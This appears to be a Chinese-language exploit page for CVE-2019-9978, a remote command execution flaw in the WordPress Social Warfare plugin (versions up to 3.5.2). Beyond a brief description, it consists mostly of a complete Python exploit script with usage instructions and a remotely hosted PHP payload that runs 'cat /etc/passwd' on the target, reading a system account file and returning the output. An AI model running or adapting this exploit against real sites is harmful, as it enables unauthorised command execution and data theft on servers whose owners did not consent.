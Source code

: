 （CVE-2019-9978）WordPress Plugin - social warfare 远程命令执行漏洞
===================================================================

一、漏洞简介
------------

WordPress
social-warfare插件3.5.3之前版本中存在跨站脚本漏洞。远程攻击者可借助'swp\_url'参数利用该漏洞注入恶意的JavaScript脚本。

二、漏洞影响
------------

Social WarFare Plugin (\<=3.5.2)

三、复现过程
------------

### poc

> 首先在自己的服务器上传http(s)://www.0-sec.org/payload.txt

    <pre>system('cat /etc/passwd')</pre>

> useage

     python cve-2019-9978.py --target http://vulntarget.com                              --payload-uri http://yourpayloadsite.com/payload.txt
    # Title: RCE in Social Warfare Plugin ( <=3.5.2 )
    # Date: March, 2019
    # Researcher: Luka Sikic
    # Exploit Author: hash3liZer
    # Download Link: https://wordpress.org/plugins/social-warfare/
    # Version: <= 3.5.2
    # CVE: CVE-2019-9978

    import sys
    import requests
    import re
    import urlparse
    import optparse

    class EXPLOIT:

        VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s"

        def __init__(self, _t, _p):
            self.target  = _t
            self.payload = _p

        def engage(self):
            uri = urlparse.urljoin( self.target, self.VULNPATH % self.payload )
            r = requests.get( uri )
            if r.status_code == 500:
                print "[*] Received Response From Server!"
                rr  = r.text
                obj = re.search(r"^(.*)<\!DOCTYPE", r.text.replace( "\n", "lnbreak" ))
                if obj:
                    resp = obj.groups()[0]
                    if resp:
                        print "[<] Received: "
                        print resp.replace( "lnbreak", "\n" )
                    else:
                        sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
                else:
                    sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
            else:
                sys.exit( "[~] Unexpected Status Received!" )

    def main():
        parser = optparse.OptionParser(  )

        parser.add_option( '-t', '--target', dest="target", default="", type="string", help="Target Link" )
        parser.add_option( ''  , '--payload-uri', dest="payload", default="", type="string", help="URI where the file payload.txt is located." )

        (options, args) = parser.parse_args()

        print "[>] Sending Payload to System!"
        exploit = EXPLOIT( options.target, options.payload )
        exploit.engage()

    if __name__ == "__main__":
        main()

